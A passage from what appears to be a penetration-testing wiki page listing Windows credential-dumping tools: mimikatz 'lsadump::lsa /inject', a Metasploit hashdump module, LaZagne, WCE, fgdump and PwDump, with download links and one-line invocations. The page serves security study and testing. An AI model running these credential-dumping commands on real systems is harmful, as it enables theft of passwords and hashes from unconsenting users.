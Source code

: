 Finally, you can also use the **metasploit module**: _post/windows/gather/credentials/domain\_hashdump_ or **mimikatz** `lsadump::lsa /inject` 

## Lazagne

Download the binary from [here](https://github.com/AlessandroZ/LaZagne/releases). you can use this binary to extract credentials from several software.

```text
lazagne.exe all
```

## Other tools for extracting credentials from SAM and LSASS

### Windows credentials Editor \(WCE\)

This tool can be used to extract credentials from the memory. Download it from: [http://www.ampliasecurity.com/research/windows-credentials-editor/](https://www.ampliasecurity.com/research/windows-credentials-editor/)

### fgdump

Extract credentials from the SAM file

```text
You can find this binary inside Kali, just do: locate fgdump.exe
fgdump.exe
```

### PwDump

Extract credentials from the SAM file

```text
You can find this binary inside Kali, just do: locate pwdump.exe
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```

### PwDump7

Download it from:[ http://www.tarasco.org/security/pwdump\_7](%20http://www.tarasco.org/security/pwdump_7) and just **execute it** and the passwords will be extracted.

## Defenses

\*\*\*\*[**Learn about some credentials protections here.**](credentials-protections.md)\*\*\*\*

